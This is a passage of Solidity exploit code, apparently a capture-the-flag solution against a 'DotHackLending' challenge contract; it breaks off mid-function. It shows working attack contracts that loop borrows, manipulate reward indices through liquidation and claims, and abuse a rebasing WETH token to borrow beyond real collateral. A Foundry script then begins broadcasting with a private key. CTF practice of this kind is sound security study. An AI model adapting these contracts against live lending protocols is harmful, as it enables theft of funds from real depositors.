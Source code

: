 ```js
        for (uint i; i < 10; ++i) {
            lending.borrow(collateral, asset, BORROW_AMOUNT);
        }
        lending.updateAsset(asset); // To update globalIndex
        lending.depositLiquidity(asset, INITIAL_AMOUNT - REPAY_AMOUNT);
    }

    function borrow() external {
        Challenge challenge = _challenge;
        address collateral = _collateral;
        address asset = _asset;
        DotHackLending lending = DotHackLending(challenge.dotHackLending());

        for (uint i; i < 499; ++i) {
            lending.borrow(collateral, asset, BORROW_AMOUNT);
        }
    }

    function liquidate() external {
        Challenge challenge = _challenge;
        address collateral = _collateral;
        DotHackLending lending = DotHackLending(challenge.dotHackLending());

        lending.liquidate(address(this), collateral, REPAY_AMOUNT);
        IERC20(collateral).transfer(msg.sender, IERC20(collateral).balanceOf(address(this)));
    }

    function claim() external {
        Challenge challenge = _challenge;
        address asset = _asset;
        DotHackLending lending = DotHackLending(challenge.dotHackLending());

        lending.claimReward(asset, REPAY_AMOUNT);
        lending.withdrawLiquidity(asset, INITIAL_AMOUNT - REPAY_AMOUNT);

        IERC20(asset).transfer(msg.sender, IERC20(asset).balanceOf(address(this)));
    }
}

contract RebaseAbuser {
    uint constant INITIAL_AMOUNT = 10000 ether;

    function exploit(Challenge challenge, address asset) external {
        DotHackLending lending = DotHackLending(challenge.dotHackLending());
        address rebaseWeth = challenge.dotHackRebasingWETH();

        IERC20(rebaseWeth).approve(address(lending), type(uint256).max);

        lending.depositLiquidity(rebaseWeth, INITIAL_AMOUNT);
        lending.withdrawLiquidity(rebaseWeth, INITIAL_AMOUNT);
        lending.depositCollateral(rebaseWeth, INITIAL_AMOUNT);
        for (uint i; i < 2; ++i) {
            lending.borrow(rebaseWeth, asset, INITIAL_AMOUNT / 2);
        }

        IERC20(asset).transfer(msg.sender, INITIAL_AMOUNT);
        IERC20(rebaseWeth).transfer(msg.sender, INITIAL_AMOUNT);
    }
}

contract Solve is Script {
    function run() public {
        vm.startBroadcast(vm.envUint("PRIV"));
```